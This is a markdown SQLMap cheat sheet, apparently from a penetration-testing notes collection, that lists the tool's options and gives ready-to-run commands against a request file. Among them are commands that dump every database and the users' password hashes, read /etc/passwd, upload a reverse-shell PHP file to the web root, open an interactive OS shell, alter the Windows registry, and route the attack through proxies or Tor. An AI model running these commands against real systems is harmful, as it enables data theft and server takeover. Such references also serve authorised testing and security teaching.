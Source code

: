 # SQLMap

Target: At least one of these options has to be provided to define the target(s)

```
-u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
-d DIRECT           Connection string for direct database connection
-l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
-m BULKFILE         Scan multiple targets given in a textual file
-r REQUESTFILE      Load HTTP request from a file
-g GOOGLEDORK       Process Google dork results as target URLs
-c CONFIGFILE       Load options from a configuration INI filecode
```

```
sqlmap -r req.txt -p namePeople
```

SQLmap Tutorial Enumeration

```
--current-user      Retrieve DBMS current user
--current-db        Retrieve DBMS current database
--hostname          Retrieve DBMS server hostname
--is-dba            Detect if the DBMS current user is DBA
--users             Enumerate DBMS users
--passwords         Enumerate DBMS users password hashes
--privileges        Enumerate DBMS users privileges
```

Dump Everything

```
sqlmap -r req.txt -p namePeople --all
sqlmap -r req.txt -p namePeople --banner
```

Read All Databases

```
sqlmap -r req.txt -p namePeople --dbs
```

Read Current User

```
sqlmap -r req.txt -p namePeople --current-user
sqlmap -r req.txt -p namePeople --roles
```

Read Hostname

```
sqlmap -r req.txt -p namePeople --hostname
```

Read User Privileges

```
sqlmap -r req.txt -p namePeople --privileges
```

SQLmap File System Access - These options can be used to access the back-end database management system underlying file system

```
 --file-read=FILE..  Read a file from the back-end DBMS file system
 --file-write=FIL..  Write a local file on the back-end DBMS file system
 --file-dest=FILE..  Back-end DBMS absolute filepath to write to
```

Read File From Remote System

```
sqlmap -r req.txt -p namePeople --file-read=/etc/passwd --batch
```

Upload File to Remote System

```
sqlmap -r req.txt -p namePeople --file-write=/home/user/rshell.php --file-dest=/var/www/html --batch
```

SQLmap Operating System Access - These options can be used to access the back-end database management system underlying operating system

```
 --os-cmd=OSCMD      Execute an operating system command
 --os-shell          Prompt for an interactive operating system shell
 --os-pwn            Prompt for an OOB shell, Meterpreter or VNC
 --os-smbrelay       One click prompt for an OOB shell, Meterpreter or VNC
 --os-bof            Stored procedure buffer overflow exploitation
 --priv-esc          Database process user privilege escalation
 --msf-path=MSFPATH  Local path where Metasploit Framework is installed
 --tmp-path=TMPPATH  Remote absolute path of temporary files directory
```

```
sqlmap -r req.txt -p namePeople --os-cmd=ifconfig
sqlmap -r req.txt -p namePeople --os-shell
```

SQLmap Windows Registry Access - These options can be used to access the back-end database management system Windows registry

```
--reg-read          Read a Windows registry key value
--reg-add           Write a Windows registry key value data
--reg-del           Delete a Windows registry key value
--reg-key=REGKEY    Windows registry key
--reg-value=REGVAL  Windows registry key value
--reg-data=REGDATA  Windows registry key value data
--reg-type=REGTYPE  Windows registry key value type
```

SQLmap with Anonymity

```
--proxy=PROXY       Use a proxy to connect to the target URL
--proxy-cred=PRO..  Proxy authentication credentials (name:password)
--proxy-file=PRO..  Load proxy list from a file
--proxy-freq=PRO..  Requests between change of proxy from a given list
--tor               Use Tor anonymity network
--tor-port=TORPORT  Set Tor proxy port other than default
--tor-type=TORTYPE  Set Tor proxy type (HTTP, SOCKS4 or SOCKS5 (default))
--check-tor         Check to see if Tor is used properly
```

SQLmap over Proxy

```
sqlmap --proxy="http://<proxy-ip>:<proxy-port>" 
sqlmap --proxy="http://<proxy-ip>:<proxy-port>" --proxy-cred=username:password
```

SQLmap over TOR

```
sqlmap --tor --tor-port=9050 --tor-type=SOCKS5 -r req.txt --dbs
sqlmap --check-tor

```

{% embed url="https://www.poplabsec.com/complete-sqlmap-tutorial/" %}
